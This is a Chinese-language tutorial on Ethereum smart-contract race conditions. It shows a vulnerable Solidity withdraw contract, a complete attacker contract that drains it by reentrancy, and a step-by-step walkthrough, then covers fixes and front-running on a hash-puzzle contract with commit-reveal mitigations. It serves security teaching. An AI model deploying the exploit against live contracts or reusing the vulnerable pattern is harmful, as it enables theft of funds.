

### 1. 竞态条件引发​

以太坊智能合约的特点之一是能够调用和利用其他外部合约的代码，调用外部合约主要存在的危险就是外部合约可以接管控制流，并对调用函数不期望的数据进行更改。这类漏洞有多种形式，包括重入和交易顺序依赖等。

#### 1.1 重入漏洞(Reentrancy)

- 问题描述

​ 合约通常也处理 Ether，因此通常会将 Ether发送给各种外部用户地址。调用外部合约或将以太网发送到地址的操作需要合约提交外部调用。这些外部调用可能被攻击者劫持，迫使合约执行进一步的代码（即通过回退函数），包括回调自身。因此代码执行"重新进入"合约。这种攻击被用于臭名昭著的DAO 攻击。

- 案例

  ```{.solidity}
  pragma solidity ^0.4.22;
  
  contract Reentrancy {
      mapping(address => uint256) public balances;
  
      event WithdrawFunds(address _to,uint256 _value);
  
      function depositFunds() public payable {
          balances[msg.sender] += msg.value;
      }
  
      function showbalance() public view returns (uint256 ){
          return address(this).balance;
      }
  
      function withdrawFunds (uint256 _weiToWithdraw) public {
          require(balances[msg.sender] >= _weiToWithdraw);
          require(msg.sender.call.value(_weiToWithdraw)());
          balances[msg.sender] -= _weiToWithdraw;
          emit WithdrawFunds(msg.sender,_weiToWithdraw);
      }
  }
  ```

  该合约有两个函数：depositFunds()和withdrawFunds()，depositFunds()的功能是增加msg.sender的余额，withdrawFunds()的功能是取出msg.sender指定的数值为\_weiToWithdraw的Ether。

  现在，一个攻击者创建了下列合约

  ```{.solidity}
  pragma solidity ^0.4.22;
  
  //设置原合约接口，方便回调
  interface Reentrancy {
      function depositFunds() external payable;
      function withdrawFunds (uint256 _weiToWithdraw) external;
  }
  //漏洞证明合约
  contract POC {
      address owner;
    Reentrancy reInstance;
  
      constructor() public {
          owner = msg.sender;
      }
  
    modifier onlyOwner() {
          require(owner==msg.sender);
          _;
    }
    //指向原合约地址
    function setInstance(address addr) public onlyOwner {
          reInstance = Reentrancy(addr);
    }
    //先存入一笔以太币
    function depositEther() public payable {
          require(msg.value >= 1 ether);
          reInstance.depositFunds.value(msg.value)();
    }
    //取出盗取的以太币
    function getEther() public onlyOwner {
          msg.sender.transfer(address(this).balance);
    }
    //调用withdrawFunds,发起攻击 
      function withdrawFunds() public onlyOwner {
          reInstance.withdrawFunds(1 ether);
      }
    //回退函数，进行重入攻击
      function() external payable {
          if(address(reInstance).balance >= 1 ether) {
              reInstance.withdrawFunds(1 ether);
          }
      }
  }
  ```

  

PS:注意此处由于重入攻击造成了balances\[msg.sender\]溢出，强烈推荐所有数学运算都使用SafeMath进行。

分析该合约是如何进行重入攻击的：

1、假设普通用户向原合约(Reentrancy.sol)存入15 ether；

2、攻击者部署攻击合约(POC.sol)，并调用setInstance()指向原合约部署地址；

3、攻击者调用攻击合约的depositEther()函数，预先向原合约预存1
ether，此时， 在原合约中，攻击合约的地址有1 ether余额；

4、攻击者调用攻击合约的withdrawFunds()函数，该函数再调用原合约的withdrawFunds()函数，并传参1
ether；

5、进入原合约，withdrawFunds()函数的第一行`require(balances[msg.sender] >= _weiToWithdraw);`，攻击合约地址下余额为1
ether，等于\_weiToWithdraw，条件满足，进入下一行；

6、withdrawFunds()函数的第二行`require(msg.sender.call.value(_weiToWithdraw)());`，向msg.sender转入\_weiToWithdraw(此时是1
ether)，由于msg.sender是合约地址，solidity规定向合约地址接收到ether时如果未指定其他有效函数，那么默认会调用合约的[fallback](https://solidity.readthedocs.io/en/latest/contracts.html?highlight=fallback#fallback-function)函数，执行流进入攻击合约，并调用攻击合约的fallback函数，并且，因为是通过call.value()()方式发送以太币，该方法会发送所有剩余gas；

7、进入攻击合约的fallback函数，if判断原合约余额，此时为16
ether，条件满足，再次"重入"原合约的withdrawFunds()函数；

8、再次进入原合约的withdrawFunds()函数，因为`balances[msg.sender] -= _weiToWithdraw;`并未执行，所以此时攻击合约地址仍有1
ether，第一个require条件满足，执行到第二个require；

9、此后步骤6-8将一直重复，直到原合约余额少于1 ether或者gas耗尽；

10、最后进入原合约，执行`balances[msg.sender] -= _weiToWithdraw;`，注意，此处会从`balances[msg.sender]`中减去所有提取的ether，导致`balances[msg.sender]`溢出，如果此处使用SafeMath，可以通过抛出异常的方式避免重入攻击；

最终的结果是攻击者只使用了1 ether，就从原合约中取出了所有的ether。

- 漏洞修复

1、在可能的情况下，将ether发送给外部地址时使用solidity内置的[transfer()函数](http://solidity.readthedocs.io/en/latest/units-and-global-variables.html#address-related)，transfer()转账时只发送2300
gas，不足以调用另一份合约(即重入发送合约)，使用transfer()重写原合约的withdrawFunds()如下；

```{.solidity}
function withdrawFunds (uint256 _weiToWithdraw) public {
    require(balances[msg.sender] >= _weiToWithdraw);
    msg.sender.transfer(_weiToWithdraw);
    balances[msg.sender] -= _weiToWithdraw;
    emit WithdrawFunds(msg.sender,_weiToWithdraw);
}
```

2、确保状态变量改变发生在ether被发送(或者任何外部调用)之前，即Solidity官方推荐的[检查-生效-交互模式(checks-effects-interactions)](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern);

```{.solidity}
function withdrawFunds (uint256 _weiToWithdraw) public {
    require(balances[msg.sender] >= _weiToWithdraw);//检查
    balances[msg.sender] -= _weiToWithdraw;//生效
    require(msg.sender.call.value(_weiToWithdraw)());//交互
    emit WithdrawFunds(msg.sender,_weiToWithdraw);
}
```

3、使用互斥锁：添加一个在代码执行过程中锁定合约的状态变量，防止重入调用

```{.solidity}
bool reEntrancyMutex = false;
function withdrawFunds (uint256 _weiToWithdraw) public {
    require(!reEntrancyMutex);
    reEntrancyMutex = true;
    require(balances[msg.sender] >= _weiToWithdraw);
    require(msg.sender.call.value(_weiToWithdraw)());
    balances[msg.sender] -= _weiToWithdraw;
    reEntrancyMutex = false;
    emit WithdrawFunds(msg.sender,_weiToWithdraw);
}
```

- 真实的例子：[TheDAO](https://etherscan.io/address/0xd2e16a20dd7b1ae54fb0312209784478d069c7b0#code)

重入在这次攻击中发挥了重要作用，最终导致了 Ethereum Classic（ETC）的分叉。有关The DAO 漏洞的详细分析，请参阅 [Phil Daian的文章](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/)。

#### 1.2 交易顺序依赖攻击

与大多数区块链一样，以太坊节点汇集交易并将其形成块。一旦矿工解决了共识机制（目前Ethereum的 ETHASH
PoW），这些交易就被认为是有效的。解决该区块的矿工也会选择来自该矿池的哪些交易将包含在该区块中，这通常是由gasPrice交易决定的。在这里有一个潜在的攻击媒介。攻击者可以观察事务池中是否存在可能包含问题解决方案的事务，修改或撤销攻击者的权限或更改合约中的对攻击者不利的状态。然后，攻击者可以从这个事务中获取数据，并创建一个更高级别的事务gasPrice 并在原始之前将其交易包含在一个区块中。

- 案例

```{.solidity}
contract FindThisHash {
    bytes32 constant public hash = 0xb5b5b97fafd9855eec9b41f74dfb6c38f5951141f9a3ecd7f44d5479b630ee0a;

    constructor() public payable {} // load with ether

    function solve(string solution) public {
        // If you can find the pre image of the hash, receive 1000 ether
        require(hash == sha3(solution)); 
        msg.sender.transfer(1000 ether);
    }
}
```

这个合约包含1000个ether，找到并提交正确答案的用户将得到这笔奖励。当一个用户找出答案`Ethereum!`。他调用solve函数，并把答案`Ethereum!`作为参数。不幸的是，攻击者可以观察交易池中任何人提交的答案，他们看到这个解决方案，检查它的有效性，然后提交一个远高于原始交易的gasPrice的新交易。解决该问题的矿工可能会因攻击者的gasPrice更高而先打包攻击者的交易。攻击者将获得1000ether，最初解决问题的用户将不会得到任何奖励（合约中没有剩余ether）。

- 漏洞修复

有两类用户可以进行这种的提前交易攻击。用户（修改他们的交易的`gasPrice`）和矿工自己（他们可以按照他们认为合适的方式重新排序交易）。一个易受第一类（用户）攻击的合约比一个易受第二类（矿工）攻击的合约明显更糟糕，因为矿工只能在解决一个区块时执行攻击，这对于任何针对特定区块的单个矿工来说都是不可能的。在这里，我将列出一些与他们可能阻止的攻击类别相关的缓解措施。

可以采用的一种方法是在合约中创建限制条件，即`gasPrice`上限。这可以防止用户增加`gasPrice`并获得超出上限的优先事务排序。这种预防措施只能缓解第一类攻击者（任意用户）的攻击。在这种情况下，矿工仍然可以攻击合约，因为无论`gasPrice`如何，他们都可以根据需要排序交易。

更可靠的方法是尽可能使用[提交---披露方案(commit-reveal)](https://ethereum.stackexchange.com/questions/191/how-can-i-securely-generate-a-random-number-in-my-smart-contract)。这种方案规定用户使用隐藏信息（通常是散列）发送交易。在交易已包含在块中之后，用户发送一个交易解密已经发送的数据（披露阶段）。此方法可防止矿工和用户进行前瞻性交易，因为他们无法确定交易内容。然而，这种方法无法隐藏交易价值（在某些情况下，这是需要隐藏的有价值信息）。
ENS智能合约允许用户发送交易，其承诺数据包括他们愿意花费的以太数量。然后，用户可以发送任意值的交易。在披露阶段，用户退还了交易中发送的金额与他们愿意花费的金额之间的差额。

- 参考链接：https://blog.sigmaprime.io/solidity-security.html#race-conditions